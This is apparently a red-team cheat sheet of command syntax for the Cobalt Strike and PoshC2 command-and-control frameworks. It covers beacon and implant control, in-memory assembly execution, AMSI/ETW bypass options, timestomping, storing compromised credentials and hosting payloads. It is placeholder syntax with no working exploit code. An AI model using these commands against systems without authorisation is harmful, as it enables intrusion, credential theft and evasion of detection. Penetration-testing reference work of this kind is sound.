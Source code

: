 # __Command & Control framework usage__
>Author: Pieter Miske
---
### __Cobalt strike:__
#### _Start team server and client:_
- Start the CS team server: `./teamserver <IP used by the TS> <new password for TS> <malleable.profile>`
- Start the CS client: `./cobaltstrike`

#### _Basic beacon commands:_
- Listing of the available commands: `help`
- Show the help menu of the selected module: `help <module>`
- List the running jobs of beacon: `jobs`
- Kill selected job: `jobkill <id>`
- Execute OS commands by spawning "cmd\.exe /c": `shell <command> (<arguments>)`
- Execute commands by spawning "powershell\.exe": `powershell <command> (<arguments>)`
- Import a local powershell module in the current beacon process: `powershell-import </path/to/script\.ps1>`
- Execute powershell commands without spawning "powershell\.exe", using only \.net libraries and assemblies: `powerpick <command> (<arguments>)`
- Load and execute a \.NET compiled assembly executable completely in memory: `execute-assembly </path/to/local/tool.exe> (<arguments>)`
- Set the interval and jitter of beacon's call back: `sleep <seconds (e.g. 60)> (<jitter (e.g. 50)>)`
- Download file \(stored on the TS or can be viewed via: View > Downloads\): `download <C:\path to file>`
- Upload file: `upload </path/to/file.exe>`
- Change 'Last Modified" timestamp of an altered file to the timestamp of the original file: `timestomp <new file> <original file>`
- Convert returned error code to error message: `net helpmsg <code>`
- Host a file via the team server: Attacks > Web drive\-by > Host File

#### _Aggressor scripts:_
The following aggressor scripts give some extra functionality to CS\. 
- [InlineExecute\-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly): this BOF allows in process \.NET assembly execution as an alternative for execute\-assembly module: `inlineExecute-Assembly --dotnetassembly /<path to tool> --assemblyargs <args> --amsi --etw <--pipe | --mailslot> <pmisvc> --appdomain <ConsoleApp1>`
- [Cobalt\-arsenal](https://github.com/mgeeky/cobalt-arsenal): set of aggressor scripts that add or improve default cobalt strike functionalilities\.
- [HelpColer](https://github.com/outflanknl/HelpColor): lists available Cobalt Strike beacon commands and colors them based on their type\.


---
### __PoshC2:__
#### _Running PoshC2:_
- Download and install the open source [PoshC2](https://github.com/nettitude/PoshC2) project: `sudo ./Install.sh`
- Project management: `sudo posh-project <-n <project_name> | -s <project-to-switch-to> | -l (lists projects) | -d <project-to-delete> | -c (shows current project)>`
- Edit the configuration for your project \(atleast modify BindIP/BindPort and PayloadCommsHost\): `sudo posh-config`
- Launch the PoshC2 server: `sudo posh-server`
- Run the ImplantHandler for interacting with implants \(all output of the implants will show up in the server panel\): `sudo posh -u <random username>`
- Update PoshC2: `posh-update`
- Start new display \(log\) panel \(use this if team members log in via ssh\): `posh-log`

#### _Main menu commands:_
- Add compromised credentials/hashes to the database \(accepts only password or hash\): `creds -add -domain=<domain> -username=<username> -password='<password>'|-hash=<hash>`
- Check all compromised \(stored\) credentials: `creds`
- Message other team members: `message "<Message to broadcast>"`
- Get a detailed overview in both html/cvs format about compromised systems, commands executed on each system and gathered \(if added\) credentials: `generate-reports`
- Quick overview of compromised hosts, used URL's, files uploaded and \(if added\) gathered credentials: `opsec`
- Show detailed information about the running server: `show-serverinfo`
- Host new file/image/exploit by following the wizard \(make sure to add /<file name> when specifing the URL path\) \(hosted files can not be disabled\): `add-hosted-file <name file>`
- List hosted files: `show-hosted-files`

#### _General Commands:_
- Get overview of all command: `help`
- Get overview of all available modules: `listmodules`
- Change beacon call\-back time of running implant \(run in implant interface\): `beacon <number in seconds>s`
- Set beacon call\-back time for new implants \(run in "select implant" interface\): `set-defaultbeacon <number in seconds>s`
- Label an implant with text: `label-implant <label text>`
- Load PowerShell script in C\# implant: `pslo <scriptname.ps1>`
- Execute PowerShell command in C\# implant: `sharpps <normal PS syntax>`
- Upload file \(if the source address is not correct it will completely brake the C2 server\): `upload-file -source /<local path> -destination "C:\Users\Public\Documents\<file>"`
- Download file \(stored in /var/poshc2/<project>/downloads/\): `download-file "c:\<path to file>"`
- Run C\# \.NET binaries \(\.exe and \.dll\):
	- 1\. Add C\# \.NET assembly in the ‘modules’ folder and load the module: `loadmodule <name executable>`   
	- 2\. Run C\# binary \(if the program is not giving any output, the only solution is to respawn a C\# implant\): `run.exe <namespace>.<classname> <assembly name> <args>`

#### _Tips & Tricks:_
- In the file “/PoshC2/resources/urls\.txt” you can specify multiple URL's that the beacons will use\.
- PowerShell implants will automaticly migrade to a new process that is specified in the posh\-config file "DefaultMigrationProcess" attribute\.  
- Quickstart document can be found in "/var/poshc2/<project name>/quickstart\.txt"
- All payloads are stored in "/var/poshc2/<project name>/payloads/"
- Create an alias for a C\# assembly or powershell script "/opt/Poshc2/poshc2/client/Alias\.py"
- All downloaded files and screenshots are stored in the directory "/var/poshc2/<name project>/downloads/"
- Run Beacon Object Files (BOF) with PoshC2:
    - 1\. Download and compile the [RunOF](https://github.com/nettitude/RunOF) project (including the object files in the 'beacon_funcs' folder)
    - 2\. Base64 encode a BOF object file that you want to run \(e.g. whoami from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)\)
    - 3\. Run the BOF (RunOF): `run-exe RunOF.Program RunOF -a <base64 string> (-Z:<string arguments>)`

